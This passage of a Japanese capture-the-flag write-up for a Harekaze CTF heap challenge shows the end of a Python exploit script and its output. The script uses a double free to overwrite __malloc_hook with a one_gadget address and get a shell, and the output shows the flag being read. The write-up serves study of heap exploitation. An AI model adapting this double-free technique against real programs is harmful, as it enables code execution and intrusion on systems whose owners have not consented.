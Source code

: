 ```python
    create("DUMMY" + str(i))
delete("AAAA")
create("AAAA")
delete("BBBB")
delete("AAAA")
# now: fastbin --> (AAAA->content) --> (BBBB->content) --> (AAAA->content)
for i in range(7):
    create("consume" + str(i))
for i in range(7):
    create("CONSUME" + str(i))
    write("CONSUME" + str(i), 0x38, "bye")
# dup
create("TARGET1")
write("TARGET1", 0x38, p64(libc_base + libc.symbol("__malloc_hook")))
create("TARGET2")
write("TARGET2", 0x38, "nope")
create("TARGET3")
write("TARGET3", 0x38, "nope")
create("GOAL")
write("GOAL", 0x38, p64(libc_base + one_gadget))

sock.interactive()
```

できたぁぁぁぁぁぁぁ！
```
$ python solve.py 
[+] Socket: Successfully connected to problem.harekaze.com:20003
[ptrlib] addr heap = 0x55f1f06bf260
[ptrlib] proc base = 0x55f1eecca000
[ptrlib] libc base = 0x7f9910280000
[ptrlib]$ 1. Create note
2. Write content
3. Show content
4. Delete note
Choice: 1
[ptrlib]$ ls /home
[ptrlib]$ note
cat /home/note/flag
[ptrlib]$ HarekazeCTF{d0u613_fr3e_1n_7c4ch3_15_n0_10ng3r_4va1l4613}
```

長い道のりだった。

# 感想
面白かったです。
頭がかたいと全部fastbin attackで解決しようとするのでダメですね。
せっかくポインタを持つ構造体がmallocされるんだから活用しないと。

# 参考文献
[1] [https://gist.github.com/SeahunOh/394e37990c5b60f3216bb28b32a0e46b](https://gist.github.com/SeahunOh/394e37990c5b60f3216bb28b32a0e46b)